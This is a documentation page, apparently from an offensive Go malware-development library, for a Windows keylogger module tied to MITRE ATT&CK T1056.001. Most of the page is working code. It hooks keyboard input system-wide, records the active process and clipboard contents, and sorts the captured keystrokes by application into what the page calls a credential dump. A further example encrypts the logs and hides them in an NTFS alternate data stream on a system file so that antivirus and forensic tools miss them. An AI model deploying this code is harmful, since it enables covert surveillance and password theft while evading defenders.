

# Keylogging

[<- Back to Collection Overview](README.md)

**MITRE ATT&CK:** [T1056.001 - Input Capture: Keylogging](https://attack.mitre.org/techniques/T1056/001/)
**Package:** `collection/keylog`
**Platform:** Windows
**Detection:** High

---

## Primer

A keylogger captures every keystroke typed by the user. This implementation uses a low-level Windows keyboard hook (`SetWindowsHookExW` with `WH_KEYBOARD_LL`) that intercepts keystrokes system-wide before they reach any application.

Each captured keystroke includes the translated character, which window was active, which process owned it, and whether Ctrl/Shift/Alt were held. On Ctrl+V (paste), the clipboard content is also captured.

---

## How It Works



**Key features:**
- `AttachThreadInput` for accurate modifier state from foreground thread
- `ToUnicodeEx` with `wFlags=0x4` to preserve dead key state (OPSEC)
- Foreground window cache (re-queries only on hwnd change)
- Special key labels: `[Enter]`, `[Backspace]`, `[Tab]`, `[F1]`-`[F12]`, arrows, etc.
- Ctrl shortcut detection: `[Ctrl+V]` with clipboard capture

---

## Usage

```go
import "github.com/oioio-space/maldev/collection/keylog"

ch, err := keylog.Start(ctx)
if err != nil {
    log.Fatal(err)
}

for ev := range ch {
    fmt.Printf("%s", ev.Character)
    if ev.Clipboard != "" {
        fmt.Printf(" [pasted: %s]", ev.Clipboard)
    }
}
```

---

## Advanced — Window-Context Log Segmentation

`ev.Window` and `ev.Process` tell you which application was active. Segmenting
by process name turns a raw character stream into a structured credential
dump: browser typed passwords, terminal commands, and document edits in
separate buckets.

```go
import (
    "context"
    "fmt"
    "path/filepath"
    "strings"

    "github.com/oioio-space/maldev/collection/keylog"
)

func logByProcess(ctx context.Context) map[string]string {
    ch, _ := keylog.Start(ctx)
    bufs := map[string]*strings.Builder{}

    for ev := range ch {
        proc := strings.ToLower(filepath.Base(ev.Process))
        if bufs[proc] == nil {
            bufs[proc] = &strings.Builder{}
        }
        bufs[proc].WriteString(ev.Character)
        if ev.Clipboard != "" {
            bufs[proc].WriteString(fmt.Sprintf("[Paste:%q]", ev.Clipboard))
        }
    }

    out := make(map[string]string, len(bufs))
    for k, v := range bufs {
        out[k] = v.String()
    }
    return out
}
```

---

## Combined Example — Encrypted ADS Stash

Keystrokes written to disk in plaintext are trivially discoverable. Encrypt
each chunk with AES-GCM and stash it in an NTFS Alternate Data Stream on a
file that already exists — `dir` and most scanners see only the base file.

```go
package main

import (
    "context"
    "strings"

    "github.com/oioio-space/maldev/collection/keylog"
    "github.com/oioio-space/maldev/crypto"
    "github.com/oioio-space/maldev/system/ads"
)

const (
    adsHost   = `C:\ProgramData\Microsoft\Windows\Caches\caches.db`
    adsStream = "log"
)

func main() {
    ctx := context.Background()
    ch, _ := keylog.Start(ctx)

    key, _ := crypto.NewAESKey()
    var buf strings.Builder

    for ev := range ch {
        buf.WriteString(ev.Character)
        if buf.Len() < 512 {
            continue
        }
        blob, _ := crypto.EncryptAESGCM(key, []byte(buf.String()))
        buf.Reset()

        // Append the encrypted chunk to the ADS. A defender reading the base
        // file sees the original cache content; the :log stream is invisible
        // to Explorer, dir, and most AV scanners.
        existing, _ := ads.Read(adsHost, adsStream)
        _ = ads.Write(adsHost, adsStream, append(existing, blob...))
    }
}
```

Layered benefit: encrypted on disk (YARA/strings-clean), hidden in an ADS
(invisible to standard enumeration), on a pre-existing system file that
reduces MFT-creation anomaly detections.

---

## API Reference

See [collection.md](../../collection.md#collectionkeylog----keyboard-hook)
